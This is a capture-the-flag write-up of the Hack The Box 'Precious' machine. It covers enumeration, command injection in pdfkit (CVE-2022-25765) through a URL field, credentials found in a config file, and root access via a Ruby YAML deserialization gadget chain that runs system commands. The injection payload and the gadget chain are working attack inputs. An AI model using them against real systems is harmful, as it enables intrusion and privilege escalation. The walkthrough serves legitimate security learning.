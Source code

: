 ```yaml
---
title: "Precious"
date: 23-03-2025
categories: [Linux, Medium]
tags: [Easy, Ruby, Deserialization, RCE, CVE, PDF]
image: https://labs.hackthebox.com/storage/avatars/3adcfd6093f8ddb4dffe8422da6377c8.png
---
```


This machine was quite hard for me. I learned a lot about exploiting ruby data serialization  and finding information inside of pdf files with `exiftool`.

![precious_info_card](assets/images/precious/Precious.png)

## Enumeration

This machine only has two ports open as shown by the `nmap` scan below
```
# Nmap 7.94SVN scan initiated Sat Mar 15 09:54:17 2025 as: nmap -p22,80 -sCV -Pn -n -oN nmap/precious 10.10.11.189
Nmap scan report for 10.10.11.189
Host is up (0.016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 15 09:54:24 2025 -- 1 IP address (1 host up) scanned in 7.01 seconds
```

The webpage is redirecting us to `http://precious.htb` we can add this to our hosts file and we can now visit the website. The webpage seems very straightforward, it simply takes in a **url** and produces a pdf file with the contents of that website. I ran `fuff` to identify different virtual hosts or directories but there were none therefore the only vector of exploitation is this pdf generator. 

![prcious](assets/images/precious/Pasted image 20250315095622.png)

The first thing that I tried was inputting a valid website like `nike.com` but that did not work. Following that I set up a listener on port 80 and placed my own IP address to see if I get a connect.  `http://10.10.14.27`

```
sudo nc -lvnp 80
[sudo] password for madaf: 
listening on [any] 80 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.11.189] 59318
GET / HTTP/1.1
Host: 10.10.14.27
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/602.1 (KHTML, like Gecko) wkhtmltopdf Version/10.0 Safari/602.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
```

Following this I tried setting up my own webpage with a simple python script which I used to test the pdf generator. It could print the simple website I generated. I tried using some common file disclosure payloads that are commonly used for pdf generators to try to get files such as `/etc/passwd` but none seemed to work. 

#### PDF Generator libraries

I decided to check `wappalizer` and saw that the website was using Phusion Passenger 6.0.15. Which has support for different languages like Python and Ruby. I decided to intercept a request I made to my own page and saw the following in the headers:

```
HTTP/1.1 200 OK
Content-Type: application/pdf
Content-Length: 4595
Connection: keep-alive
Status: 200 OK
Content-Disposition: attachment; filename="wutmohqrq8opdks6kapw1gukbefusdim.pdf"
Last-Modified: Sat, 15 Mar 2025 11:18:30 GMT
X-Content-Type-Options: nosniff
Date: Sat, 15 Mar 2025 11:18:30 GMT
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby
```

We can see that `X_Runtime` indicates that the website is using Ruby as the language. I downloaded of the the pdf's the website generated and used `exiftool` to examine the pdf metadata:

```
ExifTool Version Number         : 12.57
File Name                       : almtmnf8bywbjqzinc8ehve2fjjim6io.pdf
Directory                       : /home/madaf/Downloads
File Size                       : 12 kB
File Modification Date/Time     : 2025:03:15 12:01:03+01:00
File Access Date/Time           : 2025:03:15 12:01:03+01:00
File Inode Change Date/Time     : 2025:03:15 12:01:03+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

We can clearly see that the file was generated using the `pdfkit` library with version `0.8.6` a quick google search indicates that this version is vulnerable to remote code execution. 

## Foothold

The aforementioned vulnerability is [CVE-2022-25765](https://www.exploit-db.com/exploits/51293) . We can quickly check if its vulnerable by inputting this payload into the url field: `http://test.local/%20 ping 10.10.14.27 -c 20` We can now use `tcpdump` to try to see if we get ping requests.

```
sudo tcpdump -i tun0
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:09:03.420024 IP 10.10.14.27.55850 > precious.htb.http: Flags [.], ack 2219377380, win 492, options [nop,nop,TS val 2661141076 ecr 3767220373], length 0
13:09:03.433761 IP precious.htb.http > 10.10.14.27.55850: Flags [.], ack 1, win 501, options [nop,nop,TS val 3767230404 ecr 2661090882], length 0
13:09:08.935335 IP 10.10.14.27.55850 > precious.htb.http: Flags [P.], seq 1:578, ack 1, win 492, options [nop,nop,TS val 2661146591 ecr 3767230404], length 577: HTTP: POST / HTTP/1.1
13:09:08.951009 IP precious.htb.http > 10.10.14.27.55850: Flags [.], ack 578, win 501, options [nop,nop,TS val 3767235922 ecr 2661146591], length 0
13:09:08.957799 IP precious.htb > 10.10.14.27: ICMP echo request, id 13907, seq 1, length 64
13:09:08.957814 IP 10.10.14.27 > precious.htb: ICMP echo reply, id 13907, seq 1, length 64
13:09:09.956038 IP precious.htb > 10.10.14.27: ICMP echo request, id 13907, seq 2, length 64
```

We see the post request and following that we see the pings being sent to our IP. This verifies that we have command execution and we can now use [this](https://github.com/UNICORDev/exploit-CVE-2022-25765?) exploit to give us a reverse shell back to our machine.  We get a reverse shell as the user `ruby`.


## Privilege Escalation

We land on the webpage's directory which contains some configuration files but nothing too interesting. I take a look at the home directory and I find that there is one more user, `henry` I also check my own home directory and after a `ls -la` I find a hidden file that contains credentials to that user. 

```
ruby@precious:/home/ruby$ cd .bundle
ruby@precious:/home/ruby/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
#### Gaining Root Access

With this new user we are able to run `/usr/bin/ruby /opt/update_dependencies.rb` as root without password. Since the binaries listed have full paths there is not much we can do regarding path abuses but we can take a look inside `/opt/update_dependencies.rb` one common privilege escalation method in this cases is finding a binary inside the executable that does not use absolute paths, this way we can include our own malicious code and execute it as root. 

Inside of `/opt/update_dependencies.rb` the only file without an absolute path is `dependencies.yml` which gets deserialized using `YAML.load(File.read())` 

```ruby
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
```

I got stuck here trying to find a payload that would work to grant me root access. I was told to use the following [github repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md) as reference. Using the second payload I was able to read the root flag.

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cat root/root.txt
         method_id: :resolve
```